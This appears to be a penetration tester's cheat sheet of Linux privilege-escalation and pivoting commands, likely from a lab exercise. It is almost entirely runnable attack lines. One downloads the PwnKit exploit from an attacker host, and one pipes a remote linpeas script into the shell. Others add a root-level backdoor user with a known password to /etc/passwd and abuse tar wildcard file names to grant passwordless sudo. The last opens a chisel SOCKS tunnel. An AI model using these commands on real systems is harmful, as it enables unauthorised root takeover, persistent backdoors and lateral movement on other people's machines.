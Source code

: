 find files with read as user access
```
find / -user stuart  2>/dev/null  | grep -v -e proc -e systemd -e cgroup
```

find writable 
```
find / -writable -type d 2>/dev/null
```

Find binaries with capabilities
```
/usr/sbin/getcap -r / 2>/dev/null
```

Download PwnKit 
```
wget 192.168.49.103:8000/PwnKit
```

Download and execute linpeas 
```
curl 192.168.49.103:8000/linpeas.sh | sh | tee result
```

Check groups
```
cat /etc/group
```

iptables rules
```
cat /etc/iptables/rules.v4
```

writable pass file
```
ls -lah /etc/passwd
openssl passwd w00t -> Fdzt.eqJQ4s0g
echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd
su root2
```

LPE tar wildcard expansion
```
echo "echo 'cassie ALL=(root) NOPASSWD: ALL' >> /etc/sudoers" > privesc.sh
echo "" > '--checkpoint=1'
echo "" > '--checkpoint-action=exec=sh privesc.sh'
```


# Pivoting

## Chisel
Run as client (attacker)
```
./chisel client 192.168.249.121:8080 socks
```
